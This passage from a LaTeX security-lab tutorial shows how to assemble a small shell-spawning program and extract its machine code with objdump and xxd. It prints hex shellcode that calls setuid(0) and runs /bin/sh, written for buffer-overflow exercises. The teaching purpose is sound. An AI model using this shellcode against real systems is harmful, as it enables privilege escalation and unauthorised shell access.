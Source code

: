 \begin{lstlisting}
$ ld mysh.o -o mysh

$ echo $$
25751    (*@\reflectbox{\ding{217}} the process ID of the current shell@*)
$ mysh
$ echo $$
9760     (*@\reflectbox{\ding{217}} the process ID of the new shell@*)
\end{lstlisting}



\paragraph{Getting the machine code.}
During the attack, we only need the machine code 
of the shellcode, not a standalone executable file, which
contains data other than the actual machine code. 
Technically, only the machine code is called shellcode. 
Therefore, we need to extract the machine
code from the executable file or the object file.
There are various ways to do that. One way is to 
use the \texttt{objdump} command to disassemble the 
executable or object file. 

There are two different common syntax modes for assembly code, 
one is the AT\&T syntax mode, and the other is 
Intel syntax mode. By default, \texttt{objdump} uses
the AT\&T mode. In the following, 
we use the \texttt{-Mintel} option to 
produce the assembly code in the Intel mode. 

\begin{lstlisting}
$ objdump -Mintel --disassemble mysh.o
mysh.o:     file format elf32-i386

Disassembly of section .text:

00000000 <_start>:
   0:	(*@\textbf{31 db}@*)    xor    ebx,ebx
   2:	(*@\textbf{31 c0}@*)    xor    eax,eax
            ... (code omitted) ...
  1f:	(*@\textbf{b0 0b}@*)    mov    al,0xb
  21:	(*@\textbf{cd 80}@*)    int    0x80
\end{lstlisting}
 
In the above printout, the highlighted numbers are machine code.
You can also use the \texttt{xxd} command to print out 
the content of the binary file, and you should be 
able to find out the shellcode's machine
code from the printout.

\begin{lstlisting}
$ xxd -p -c 20 mysh.o
7f454c4601010100000000000000000001000300
...
000000000000000000000000(*@\textbf{31db31c0b0d5cd80}@*)
(*@\textbf{31c050682f2f7368682f62696e89e3505389e131}@*)
(*@\textbf{d231c0b00bcd80}@*)00000000000000000000000000
...
\end{lstlisting}
 

